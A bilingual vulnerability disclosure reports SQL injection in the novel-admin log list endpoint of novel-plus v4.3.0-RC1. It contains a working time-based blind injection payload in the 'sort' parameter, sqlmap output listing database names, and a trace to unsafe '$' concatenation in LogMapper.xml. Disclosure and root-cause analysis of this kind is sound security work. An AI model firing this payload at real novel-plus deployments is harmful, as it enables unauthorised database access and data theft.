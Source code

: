 
# SQL injection vulnerability exists in novel-plus v4.3.0-RC1

# The common/log/list interface of the novel-admin subsystem in the novel-plus system has SQL injection vulnerability.

# novel-plus系统novel-admin子系统common/log/list接口存在SQL注入

#### official website: https://novel.xxyopen.com/index.htm
 
#### github: https://github.com/201206030/novel-plus
 
#### Affected version: v4.3.0-RC1
 
#### releases：https://github.com/201206030/novel-plus/releases/tag/v4.3.0-RC1
 

Payload: 
```
http://127.0.0.1:8088/common/log/list?limit=10&offset=0&sort=gmt_create AND (SELECT 1155 FROM (SELECT(SLEEP(5)))YVhZ)&order=desc&operation=&username=
```

Use sqlmap for verification, and retrieve all the database names.

使用sqlmap验证，跑出所有库名：

> information_schema<br>
> novel_plus

![image.png](https://cdn.nlark.com/yuque/0/2024/png/3014908/1705300429943-63dd8aa9-b069-4ef9-865a-f35097ebb128.png#averageHue=%23131313&clientId=uf69594bc-e91d-4&from=paste&height=585&id=u90d64431&originHeight=790&originWidth=2204&originalType=binary&ratio=1.3499999046325684&rotation=0&showTitle=false&size=143888&status=done&style=none&taskId=u9eba4599-6ba6-4cf1-b98e-fb6f63c990a&title=&width=1632.5927079230914)

The list interface in LogController calls the queryList method from LogService to query logs.

LogController中list接口调用LogService的queryList方法查询日志；

novel-admin/src/main/java/com/java2nb/common/controller/LogController.java

![image.png](https://cdn.nlark.com/yuque/0/2024/png/3014908/1705298345047-65504545-cadc-4f7e-a387-3bf27d45e880.png#averageHue=%232e2c2b&clientId=uac25bd4d-4807-4&from=paste&height=649&id=ua4f4b94c&originHeight=876&originWidth=1072&originalType=binary&ratio=1.3499999046325684&rotation=0&showTitle=false&size=117700&status=done&style=none&taskId=u4da64b9d-e333-4cb9-9c65-9fe8dec5cc1&title=&width=794.0741301694891)

LogServiceImpl calls logMapper to query the logs.

LogServiceImpl中调用logMapper查询日志；

novel-admin/src/main/java/com/java2nb/common/service/impl/LogServiceImpl.java

![image.png](https://cdn.nlark.com/yuque/0/2024/png/3014908/1705298425700-17707c68-bd80-4c5e-bde7-906a3613a22a.png#averageHue=%232e2c2b&clientId=uac25bd4d-4807-4&from=paste&height=651&id=ud9f5f2e3&originHeight=879&originWidth=1030&originalType=binary&ratio=1.3499999046325684&rotation=0&showTitle=false&size=112809&status=done&style=none&taskId=u65d05bc8-812c-47f2-a42e-7c78c32fc53&title=&width=762.9630168606099)

In LogMapper, the usage of the $ symbol to concatenate the sort parameter and the order parameter results in an SQL injection vulnerability.

LogMapper中sort参数和order参数使用了$符号来拼接，导致存在SQL注入漏洞；

novel-admin/src/main/resources/mybatis/common/LogMapper.xml

![image.png](https://cdn.nlark.com/yuque/0/2024/png/3014908/1705298554780-94226292-b6f7-441e-96c3-67407b1b25b0.png#averageHue=%2354513a&clientId=uac25bd4d-4807-4&from=paste&height=861&id=u2a7f34e0&originHeight=1162&originWidth=1652&originalType=binary&ratio=1.3499999046325684&rotation=0&showTitle=false&size=247962&status=done&style=none&taskId=u985f88b1-2de8-4f2b-b0ec-95e569ef91c&title=&width=1223.7037901492502)






